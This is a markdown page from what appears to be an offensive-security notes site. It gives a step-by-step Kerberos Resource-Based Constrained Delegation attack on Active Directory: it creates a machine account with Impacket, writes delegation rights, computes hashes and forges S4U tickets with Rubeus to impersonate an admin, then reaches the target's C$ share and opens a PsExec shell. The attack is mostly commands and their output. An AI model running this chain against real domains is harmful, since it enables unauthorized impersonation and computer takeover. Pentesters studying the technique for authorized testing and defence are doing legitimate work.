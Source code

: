 ```yaml
---
title : "RBCD-attack"
# pre : ' '
description : "Resource-Based Constrained Delegation Attack (Kerberos RBCD / KRBCD)."
date : 2021-02-17T15:54:06+01:00
# hidden : true
# draft : true
weight : 90
# tags : ['']
---
```


---

Kerberos Resource-Based Constrained Delegation Attack (Kerberos RBCD / KRBCD). Resource-Based Constrained Delegation - Generic write abuse.

## Installation

```plain
git clone https://github.com/tothi/rbcd-attack
```

### Rubeus.exe

{{%resources fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

### Abusing

### Create the computer object needed for the operation

```plain
$ addcomputer.py -computer-name 'RECEPTION$' -computer-pass JteYeCym2JxkH -dc-ip 10.10.10.10 offsec.nl/jane:'Welkom123!'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account RECEPTION$ with password JteYeCym2JxkH.
```

### Set rights for impersonation

```plain
$ ./rbcd.py -f RECEPTION -t WIN10-TARGET -dc-ip 10.10.10.10 offsec.nl\\jane:'Welkom123!'
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Starting Resource Based Constrained Delegation Attack against WIN10-TARGET$
[*] Initializing LDAP connection to 10.10.10.10
[*] Using offsec.nl\jane account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `RECEPTION` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `WIN10-TARGET`
[*] Delegation rights modified succesfully!
[*] RECEPTION$ can now impersonate users on WIN10-TARGET$ via S4U2Proxy
```

### Create RC4-HMAC hash for computer object

```plain
Z:\> .\Rubeus.exe hash /password:JteYeCym2JxkH /user:RECEPTION /domain:offsec.nl

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : JteYeCym2JxkH
[*] Input username             : RECEPTION
[*] Input domain               : offsec.nl
[*] Salt                       : offsec.nlRECEPTION
[*]       rc4_hmac             : C3CA46DA95A2B9CAB36C31A3202CE355
[*]       aes128_cts_hmac_sha1 : D9C29470D497E61186549BCC5517E736
[*]       aes256_cts_hmac_sha1 : C4CB81B0428A8384445C981575393BADC6F468396B44D39F166754C5A896FD8A
[*]       des_cbc_md5          : 528F4FE3A219FB6E
```

### Impersonate any user from the Active Directory

```plain
PS z:\> .\rubeus.exe s4u /user:RECEPTION$ /rc4:C3CA46DA95A2B9CAB36C31A3202CE355 /impersonateuser:JOHNDO-ADM /msdsspn:cifs/WIN10-TARGET.offsec.nl /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: S4U

[*] Using rc4_hmac hash: C3CA46DA95A2B9CAB36C31A3202CE355
[*] Building AS-REQ (w/ preauth) for: 'offsec.nl\RECEPTION$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE5jCCBO[...REDACTED...]J2aWNlcy5ubA==


[*] Action: S4U

[*] Using domain controller: DC01.offsec.nl (10.10.10.10)
[*] Building S4U2self request for: 'RECEPTION$@offsec.nl'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'JOHNDO-ADM@offsec.nl' to 'RECEPTION$@offsec.nl'
[*] base64(ticket.kirbi):

      doIJHjCCCRqgAwI[...REDACTED...]DAgEBoQgwBhsET0NEJA==

[*] Impersonating user 'JOHNDO-ADM' to target SPN 'cifs/WIN10-TARGET.offsec.nl'
[*] Using domain controller: DC01.offsec.nl (10.10.10.10)
[*] Building S4U2proxy request for service: 'cifs/WIN10-TARGET.offsec.nl'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/WIN10-TARGET.offsec.nl':

      doIKAjCCCf6gAw[...REDACTED...]VJWSUNFUy5OTA==
[+] Ticket successfully imported!
```

### Check ticket is successfully imported

```plain
PS z:\> klist

Current LogonId is 0:0x7b698

Cached Tickets: (1)

#0>     Client: JOHNDO-ADM @ offsec.nl
        Server: cifs/WIN10-TARGET.offsec.nl @ offsec.nl
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40210000 -> forwardable pre_authent name_canonicalize
        Start Time: 2/17/2021 15:12:51 (local)
        End Time:   2/18/2021 1:12:51 (local)
        Renew Time: 0
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

### Browse the system using the ticket

```plain
PS z:\> dir \\WIN10-TARGET.offsec.nl\c$

    Directory: \\WIN10-TARGET.offsec.nl\c$

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/27/2018  11:39 AM                Intel
d-----         5/23/2020   8:02 AM                PerfLogs
d-r---         8/19/2020   1:20 PM                Program Files
d-r---         7/10/2020  10:30 AM                Program Files (x86)
da----          2/4/2021   8:11 AM                Temp
d-r---         9/29/2020  10:33 AM                Users
d-----         2/17/2021   2:34 PM                Windows
```

### Run PsExec

```plain
PS z:\> PsExec.exe \\WIN10-TARGET.offsec.nl cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.18363.1316]
(c) 2019 Microsoft Corporation. All rights reserved.
C:\WINDOWS\system32>whoami
offsec.nl\JOHNDO-ADM
```

## URL List

- [iRED.team - Kerberos Resource-based Constrained Delegation: Computer Object Take Over](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
- [Github.com - Abusing Kerberos Resource-Based Constrained Delegation](https://github.com/tothi/rbcd-attack)
- [harmj0y.net - A case study in wagging the dog computer takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
